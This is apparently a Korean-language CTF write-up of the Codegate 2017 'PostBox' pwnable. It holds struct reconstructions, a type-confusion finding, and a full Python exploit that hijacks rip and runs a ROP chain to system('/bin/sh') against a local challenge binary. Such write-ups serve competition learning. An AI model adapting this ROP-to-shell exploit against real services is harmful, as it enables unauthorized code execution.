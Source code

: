 ```yaml
---
layout:     post
title:      "Codegate 2017 postbox write-up"
subtitle:   "codegate 2017 prequals pwnable"
date:       2018-02-15
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# Codegate 2017 PostBox WriteUp

### 1. Intro

분석에 애를 먹었으며 사실 아직까지 다 분석하지 못했다. 귀찮으니 분석하고싶을때 다시 해봐야겠다. 익스플로잇도 정말 감으로 했는데 oneshot을 쓰면 되는거였다. ㅠ


### 2. Binary & Vulnerability

static 바이너리라 ida FLIRT를 이용해 심볼을 복구해서 봤다.

Register / Un-Register / Edit -> Register

- name + "\x00" (12 byte)
- phone + "\x00" (15 byte)
- zipcode + "\x00" (7 byte)
- address + "\x00" (90 byte)

Register / Un-Register / Edit -> Edit

- name + "\x00" (11 byte)
- phone + "\x00" (15 byte)
- zipcode + "\x00" (6 byte)
- address + "\x00" (96 byte)

Create

- kind - atoi(64byte)
- price - atoi(128byte) (max : 1000000)
- info + "\x00" (11 byte)
- name + "\x00" (12 byte)
- phone + "\x00" (14 byte)
- zipcode + "\x00" (7 byte)
- address + "\x00" (98 byte)
- payment - atoi (4 byte)

Change

- name + "\x00" (11 byte)
  - summary : ' to '를 찾아서 거기서부터 10바이트 붙여넣음.
- phone + "\x00" (15 byte)
- zipcode + "\x00" (6 byte)
- address + "\x00" (100 byte)
- payment - atoi(4 byte)

0x4009d0 (이건 함수하나에 대해 분석)

- malloc(40) - box
- box -> manage =malloc(0x300)
- box -> chunk_size = 0x300
- box -> use = 48
- box -> manage -> chunk = box -> manage -> chunk_data[0xf0 * i]

```c
### Struct ###

struct Box{
	Box_chunk_manage *manage;
	__int64 chunk_size;
	__int64 use;
	__int64 AAAA;
}

struct Box_chunk_manage{
	__int64 flag;
	__int64 chunk_count;
	__int64 *chunk[4];
	char chunk_data[0x2d0];
}

struct User_info{
	__int64 *user_vt;
	char name[16];
	char phone[16];
	char zipcode[16];
	char address[120];
	__int64 *vt2;
}

struct Res_info{
	char name[16];
	char phone[13];
	char zipcode[5];
	char address[90];
	__int32 pay;
}

struct Res_vtable{
	__int64 *edit_res_name;
	__int64 *edit_res_phone;
	__int64 *edit_res_zip;
	__int64 *edit_res_add;
	__int64 *make_summary;
}

struct Post_info{
	__int64 *box_vt;
	__int64 kind;
	Res_vtable res_vt;
	char post_info[16];
	char summary[24];
	Res_info res_info;
	__int64 price;
}
```

위처럼 분석을 했는데 큰 의미는 없었다. 이것저것 만지다보니 하나의 청크를 두개가 동시에 가르키고 있는 경우가 있어서, register과 post사이에 타입컨퓨전으로 인해 rip가 바뀔꺼라 예측하고 손퍼징으로 rip를 바꿨다..<br>익스플로잇은 적절히 바이너리 내에서 입력받는곳으로 rip를 바꾸고 스택에 입력을 받은뒤 rip를 더해 거기까지 가주고 rop chain을 구성해서 풀었다. 하지만 static에 system 함수에는 one_shot gadget이 존재한다. PPP는 그걸로 exploit 했던데 그생각을 못했다.



### 3. Exploit

```python
from ntpwn import *
import string

s = process('./postbox')
b = BP(s)
#b.bp64(0x2d8b)
b.bp64(0x7f07f)
b.done()
log.info("USER : " + hex(0x2c00))

def regi(name,phone,zipcode,address):
	s.sendlineafter('-> ','1')
	s.sendlineafter('-> ',name)
	s.sendlineafter('-> ',phone)
	s.sendlineafter('-> ',zipcode)
	s.sendlineafter('-> ',address)

def unregi():
	s.sendlineafter('->','1')
	s.sendlineafter('->','Y')

def create(kind,price,info,rec_name,rec_phone,rec_zipcode,rec_address,payment):
	s.sendlineafter('-> ','2')
	s.sendlineafter('-> ',kind)
	s.sendlineafter('-> ',price)
	s.sendlineafter('-> ',info)
	s.sendlineafter('-> ',rec_name)
	s.sendlineafter('-> ',rec_phone)
	s.sendlineafter('-> ',rec_zipcode)
	s.sendlineafter('-> ',rec_address)
	s.sendlineafter('-> ',payment)

def change(idx, content):
	s.sendlineafter('->','1')
	s.sendlineafter('->','n')
	s.sendlineafter('->','y')
	s.sendlineafter('->',idx)
	s.sendafter('->',content)
	s.sendlineafter('->','5')

def send(idx):
	s.sendlineafter('->','4')
	s.sendlineafter('->',idx)

regi('C' * 8,'A','A',p64(0x6D2BE0) * 11)
change('2','\xc0\x16\x40\x41' + "\x00" * 10)
create('8','10','NEXTLINEPOST', 'B' * 9, 'C'* 9, 'D' * 5,'A'+'E' * 92,'Y')
send('1')

for i in range(5):
	create('8','10','NEXTLINE', 'B' * 9, 'C'* 9, 'D' * 5,'A'+'E' * 92,'Y')

unregi()
send('2')

read = 0x446360
system = 0x4129b0
prdi = 0x404346
prdxrsi = 0x4497b9
bss = 0x6d3400

payload = '\x46\x43\x40\xff' + p32(0) + p64(0) # prdi
payload += p64(prdxrsi) + p64(0x100) + p64(bss)
payload += p64(read)
payload += p64(prdi) + p64(bss)
payload += p64(system)

# send - 3 (change zipcode)
s.sendlineafter('->','4')
s.sendlineafter('->','3')
s.sendlineafter('->','3')
s.sendlineafter('->','\x7f\xf0\x47')
s.sendlineafter('->','5')

# change - zipcode (call 0x401e10)
s.sendlineafter('->','3')
s.sendlineafter('->','3')
s.sendlineafter('->','2')
s.sendlineafter('->','A' * (0x88-5) + payload + 'A' * 0x80)
s.recvuntil('->')

pause()
# change - address (jmp add rsp, 0x68 ; ret)
s.sendlineafter('->','4')
s.recv(1024)
s.sendline('/bin/sh')

s.interactive()
```

